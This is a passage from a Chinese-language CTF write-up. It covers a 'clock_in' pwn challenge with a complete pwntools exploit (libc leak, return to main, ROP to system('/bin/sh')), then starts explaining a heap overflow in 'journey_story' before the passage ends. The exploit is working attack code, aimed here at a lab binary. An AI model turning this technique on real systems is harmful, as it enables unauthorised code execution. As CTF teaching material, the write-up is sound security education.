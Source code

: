 ![dasctf](/image/qwbqsn/5.png)  

在获得 libc 基址后，使 rip 跳到 main 函数全部重新来一遍，再利用 后门 gadget 控制 rdi 为 `/bin/sh` 字符串地址，rip 跳到 system 即可获取 shell

### [](#header-3)EXP


```py
#by leeya_bug

from pwn import *
import time

SLEEP_TIME = 0.2

libc = ELF('./libc.so.6')
p = process('./debug/clock_in')

p.sendlineafter(b'info:', b'a' * 64 + p64(0x403Fd8) + p64(0x00000000004011BD) + p64(0x0000000000401218))
p.recvuntil('entered:')

output = u64(p.recv()[-8:].strip(b'\n') + b'\x00\x00')
libc_base = output - 0x87bd0
libc.address = libc_base
binsh = libc_base + 0x00000000001CB42F

time.sleep(SLEEP_TIME)
p.sendline(p64(0x0000000000401253) * 13)

time.sleep(SLEEP_TIME)
p.sendline(b'a' * 64 + p64(binsh) + p64(0x00000000004011BD) + p64(libc.symbols['system']))

p.interactive()
```

# [](#header-3)pwn journey_story

这个堆题有越界写入漏洞. 简单举个例子描述一下：  
如果用户 Alloc 了一个大小为 0x88 的 chunk，用户实际上可以多写入 1 个字节. 看起来似乎没什么用，就靠这一两个字节实际上无法写入到下一个 chunk 的 header size 中.  

但这个题存在逻辑问题，当用户指定 Alloc 一个大小为 0x88 的 chunk 时，其只会 Alloc 一个 0x80 chunk. 这样实际多可写入 8 个字节，加上之前的 1 个正好凑成 9 个字节，直接覆盖掉下一个 chunk 的 size header.

```
0x5629777ba4d0: 0x0000000000000000      0x0000000000000091
...
跳过 0x80 个字节显示
...
0x5629777ba560: 0x0000000000000000      0x0000000000000091
```

